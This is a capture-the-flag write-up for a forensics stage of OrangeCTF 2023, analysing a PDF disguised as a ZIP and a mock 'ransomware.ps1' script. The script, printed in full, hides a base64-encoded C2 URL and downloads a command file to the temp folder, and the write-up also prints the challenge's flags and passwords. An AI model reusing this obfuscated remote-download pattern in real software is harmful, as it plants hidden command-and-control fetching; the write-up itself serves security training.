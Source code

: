 +++
categories = ["all"]
date = 2023-10-28T00:00:00Z
title = "Stage 05"
type = "post"
draft = false
+++

## Stage05

```bash
$ validate part33 PleaseHelpMe
Well done. Now it's time to be better, harder.

Our colleagues investigated on behalf of a customer on a malicious act detected.
They wrote a mini crisis report, but it seems that some words have been erased...
Could this be a malicious act as well?

For my part, I tried to download the file, but it still tells me that it is corrupted...
I don't understand. Yet my colleagues tell me that it is indeed readable !

Download the report : https://ctf.unit41.fr/docs/crisis_report.zip

When you have managed to read this file, and to find the missing information,
could you copy it directly to me in the terminal in the following format:
   word1;word2;word3;word4;word5
I don't think there is any space in the answers, not twice the same answer, and no accent ...
(and yes, send it like a secret command ;))

Thanks a lot for your help !
```

[crisis_report.zip](/writeups/OrangeCTF-2023/Files/crisis_report.zip)

Upon inspecting the file **`crisis_report.zip`**, we initially thought it was a ZIP file. However, upon running the **`file`** command, it was identified as a PDF document:

```bash
$ file crisis_report.zip
crisis_report.zip: PDF document, version 1.7, 4 page(s)
```

We changed the extension to **`.pdf`** and proceeded to read its content. By filling in the gaps through a bit of trial and error, we derived the following string: **`phishing;Cryptolockerv3.symptomatic.exe;192.168.50.104;supprimer;ransomware`**.

[crisis_report.pdf](/writeups/OrangeCTF-2023/Files/crisis_report.pdf)

```bash
$ phishing;Cryptolockerv3.symptomatic.exe;192.168.50.104;supprimer;ransomware
Great ! Your are a brillant analyst !
But a strong analyst know how to analyse a powershell script :).
Do you know it ? Let me check...
Download the file below, and try to understand anything... You can maybe found a suspicious string...

Download the ps1 : https://ctf.unit41.fr/docs/ransomware.ps1

Analyze it, and get the suspicious artefact.
```

This string then led us to the next step of the challenge, where we were prompted to analyze a PowerShell script named **`ransomware.ps1`** available for download.

### ransomware.ps1 file

```powershell
Get-CimInstance -ClassName Win32_ComputerSystem -Property UserName | out-null
Get-CimInstance -ClassName Win32_LogonSession | out-null
function chinese {
 param(
 [parameter( Mandatory = $true, HelpMessage = "Enter a year between 1900 and 2100:" )]
 [ValidateRange(1900,2100)]
 [int]$myYear
 )
 $names = "Rat","Ox","Tiger","Rabbit","Dragon","Snake","Horse","Goat","Monkey","Rooster","Dog","Pig"
 Write-Host $myYear -ForegroundColor White -NoNewline
 if ( $myYear -lt ( Get-Date ).Year ) {
 Write-Host " was" -NoNewline
 } elseif ( $myYear -gt ( Get-Date ).Year ) {
 Write-Host " will be" -NoNewline
 } else {
 Write-Host " is" -NoNewline
 }
 Write-Host " a Chinese year of the " -NoNewline
 Write-Host $names[ ( $myYear - 1900 ) % 12 ] -ForegroundColor White
}
function blober($naz) {
 Get-Service -DisplayName se*
 $bz = "LmZyL0MyQy9jb21tYW5kcy50eHQ"
 Get-CompressedByteArray($byteArray, $bz)
 return $bz
}
function qosdijfopi($x) {
 $a = "aHR0cHM6Ly9jdGYudW5pdDQxLm"
 $b = "ZyL0MyQy9jb21tYW5kcy50eHQ"
 $zd = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($a+$b))
 (New-Object System.Net.WebClient).DownloadFile($zd, $env:TEMP + "\commands.txt")
}
function x {
 param( [string] $infile = $(throw "Please specify a filename.") )
 $outfile = "$infile.utf8"
 get-content -Path $infile | out-file $outfile -encoding utf8
}
qosdijfopi('Chinese')
function jds($a, $b) {
 Write-Output "Les lignes contiennent : "
 $a+$b+"="
 #$zd = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($a+$b+"="))
 #return $zd
}
```

The PowerShell script seemed obfuscated, but the challenge instructions hinted that focusing on strings might be important. Indeed, there was a function dedicated to handling strings that caught our attention:

```powershell
function qosdijfopi($x) {
 $a = "aHR0cHM6Ly9jdGYudW5pdDQxLm"
 $b = "ZyL0MyQy9jb21tYW5kcy50eHQ"
 $zd = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($a+$b))
 (New-Object System.Net.WebClient).DownloadFile($zd, $env:TEMP + "\commands.txt")
}
```

This function seemed to decode a base64 encoded string.

![Untitled](/writeups/OrangeCTF-2023/Files/Untitled%2011.png)

Indeed we got a new file by decoding the base 64 string

### commands.txt file

```text
exec malware.exe
exfiltre *.doc
ask ransom
exit

Yes you are right buddy :)
Now you can validate this part55 !
Try with the password : Anal-Liste
```

Flag : **`validate part55 Anal-Liste`**